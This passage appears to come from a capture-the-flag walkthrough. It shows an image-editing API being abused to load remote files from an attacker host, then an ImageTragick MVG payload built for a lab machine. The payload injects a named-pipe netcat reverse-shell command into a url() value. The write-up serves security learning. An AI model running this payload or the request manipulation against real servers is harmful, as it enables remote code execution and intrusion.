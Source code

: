 No new GET request is issued for a modified image. I checked to see how the image changes dynamically:

![image with effect src](image%20with%20effect%20src.png)

The response to the POST is a base64 encoded jpg. The src of the \<img\> is swapped-out every time a new effect is applied. I wonder if we can play with the "path" property to cause that POST to load a different image.



### External Images

To try this out, I copied the path of one of the architecture images from http://10.10.11.220/admin#/images. I then went into Edit feature of image 2 (the raccoon). Proxying the request through Burp, I selected the charcoal effect. For the "path" property in the POST data, I pasted the path (the file path, not the URL) to the architecture image:

![swapping image path 1](swapping%20image%20path%201.png)

Forwarding the request, I noticed it had the desired effect. *That's no 'coon!*

![swapping image path 2](swapping%20image%20path%202.png)

To push this idea further, I'll try hosting an image from my attacker machine, to see if external images can be loaded in this manner.

![swapping image path 3](swapping%20image%20path%203.png)

```
POST /api/v2/admin/image/modify HTTP/1.1
[all the usual headers]
{"path":"http://10.10.14.2:8000/beaver.jpg","effect":"nothing"}
```

It worked! Indeed *that is still no 'coon!'* (note that Image 2 is the raccoon image)

> Note that I used the property `"effect" : "nothing"`. I did also try this using the charcoal effect and it worked as well, but it was hard to tell that the image was a beaver so for this walkthrough I used an invalid effect instead.

![swapping image path 4](swapping%20image%20path%204.png)

Excellent. I've caused the website to **load and process an external resource**. Since we know the server is using Imagick, there's a good chance we can use some kind of ImageTragick exploit to gain RCE, or at least an LFI.



### ImageTragick Reverse Shell

To try getting a reverse shell directly, I made an `mvg` file, `revshell.mvg` with the following contents:

```
push graphic-context
viewbox 0 0 320 240
fill 'url(http://10.10.14.2:8000/beaver.jpg"|mknod /tmp/pipez p;/bin/sh 0</tmp/pipez|nc 10.10.14.2 4444 1>/tmp/pipez;rm -rf "/tmp/pipez)'
pop graphic-context
```
